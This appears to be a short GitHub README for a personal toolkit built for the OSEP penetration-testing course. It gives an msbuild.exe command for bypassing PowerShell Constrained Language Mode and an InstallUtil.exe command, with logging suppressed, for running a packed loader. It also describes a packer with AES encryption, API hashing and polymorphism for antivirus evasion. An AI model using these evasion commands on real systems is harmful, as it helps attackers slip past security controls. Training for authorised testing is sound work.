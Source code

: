 # MyOSEPToolBox"

## CLM Bypass

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\FullBypass.csproj
```

## Packer

Packer is made extra for OSEP in C#. It has the following features:

- Automatic AES-128-CBC encryption
- API Hashing
- Polymorphism

Execute via `Installutil.exe`:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U loader.exe
```

Probably way too overkill, but better be safe ^^.
